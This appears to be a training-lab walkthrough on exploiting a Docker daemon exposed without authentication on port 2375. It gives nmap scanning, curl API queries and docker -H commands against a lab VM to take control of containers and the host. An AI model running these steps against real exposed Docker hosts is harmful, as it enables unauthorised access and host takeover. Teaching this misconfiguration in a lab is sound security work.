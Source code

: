 # Exploiting docker misconfiguration

In this scenario we will see that misconfigured `docker` with port 2375 running and exposed. We will use this with docker runtime host option to access the contianers, images and gain host system privileges.

> The Docker daemon can listen for Docker Engine API requests via three different types of Socket `unix`, `tcp`, and `fd`. To access remotely we have to enable `tcp` socket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon. It is conventional to use port `2375` for un-encrypted, and port `2376` for encrypted communication with the daemon.

* Scan the `2375` and `2376` port using nmap from student VM

```bash
nmap -p 2375,2376 -n 192.168.56.4 -v
```

![nmap scan for port 2375](images/misconfig-nmap-scan.png)


* We can query the docker API using `curl`

```bash
curl 192.168.56.4:2375/images/json | jq .
```

![accessing images via curl](images/misconfig-curl-images.png)

* Attacker can abuse this by using the docker daemon configuration to access the host system's docker runtime

```bash
docker -H tcp://CTFVMIP:2375 ps
docker -H tcp://CTFVMIP:2375 images
```

![docker tcp host usage](images/docker-tcp-host-access.png)

* Now, we have full privilege over the host system :)
